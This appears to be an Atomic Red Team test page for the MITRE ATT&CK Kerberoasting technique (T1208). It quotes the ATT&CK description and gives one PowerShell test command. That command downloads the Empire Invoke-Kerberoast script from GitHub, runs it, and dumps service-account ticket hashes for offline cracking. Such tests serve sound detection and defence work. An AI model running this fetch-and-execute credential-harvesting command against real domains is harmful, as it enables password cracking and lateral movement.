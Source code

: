 # T1208 - Kerberoasting

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1208)

<blockquote>Service principal names (SPNs) are used to uniquely identify each instance of a Windows service. To enable authentication, Kerberos requires that SPNs be associated with at least one service logon account (an account specifically tasked with running a service (Citation: Microsoft Detecting Kerberoasting Feb 2018)). (Citation: Microsoft SPN) (Citation: Microsoft SetSPN) (Citation: SANS Attacking Kerberos Nov 2014) (Citation: Harmj0y Kerberoast Nov 2016)

Adversaries possessing a valid Kerberos ticket-granting ticket (TGT) may request one or more Kerberos ticket-granting
service (TGS) service tickets for any SPN from a domain controller (DC). (Citation: Empire InvokeKerberoast Oct 2016) (
Citation: AdSecurity Cracking Kerberos Dec 2015) Portions of these tickets may be encrypted with the RC4 algorithm,
meaning the Kerberos 5 TGS-REP etype 23 hash of the service account associated with the SPN is used as the private key
and is thus vulnerable to offline [Brute Force](https://attack.mitre.org/techniques/T1110) attacks that may expose
plaintext credentials. (Citation: AdSecurity Cracking Kerberos Dec 2015) (Citation: Empire InvokeKerberoast Oct 2016) (
Citation: Harmj0y Kerberoast Nov 2016)

This same attack could be executed using service tickets captured from network traffic. (Citation: AdSecurity Cracking
Kerberos Dec 2015)

Cracked hashes may enable Persistence, Privilege Escalation, and Lateral Movement via access
to [Valid Accounts](https://attack.mitre.org/techniques/T1078). (Citation: SANS Attacking Kerberos Nov
2014)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Request for service tickets](#atomic-test-1---request-for-service-tickets)

<br/>

## Atomic Test #1 - Request for service tickets

This test uses the Powershell Empire
Module: https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1

The following are further sources and credits for this attack:
[Kerberoasting Without Mimikatz source] (https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/)
[Invoke-Kerberoast source] (https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/)
when executed successfully , the test displays available services with their hashes.
If the testing domain doesn't have any service principal name configured, there is no output

**Supported Platforms:** Windows

#### Attack Commands: Run with `powershell`!

```powershell
iex(iwr https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1)
Invoke-Kerberoast | fl
```

<br/>

